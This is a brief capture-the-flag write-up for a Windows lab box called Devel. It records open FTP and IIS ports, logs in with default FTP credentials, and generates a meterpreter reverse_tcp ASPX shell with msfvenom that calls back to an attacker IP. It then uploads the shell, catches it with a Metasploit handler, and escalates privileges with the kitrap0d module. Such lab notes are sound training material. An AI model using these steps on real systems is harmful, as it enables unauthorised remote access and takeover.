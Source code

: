 # Devel Write-Up

Easy

Tags:
`windows`
`ftp default creds`
`reverse_tcp`
`metasploit`


## Intro

1. 

## Enumeration

### Port scanning

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
```

## Exploit

use ftp default creds

generate reverse_tcp shell using meterpreter

note: use `*.aspx`

```
msfvenom -p windows/meterpreter/reverse_tcp 10.10.16.12 4444 -f aspx > shell.aspx
```

put shell on web server

set listener using `exploit/multi/handler `

note: `set payload windows/meterpreter/reverse_tcp`

## Privilege Escalation

use `exploit_local_suggester`

use `ms10_015_kitrap0d`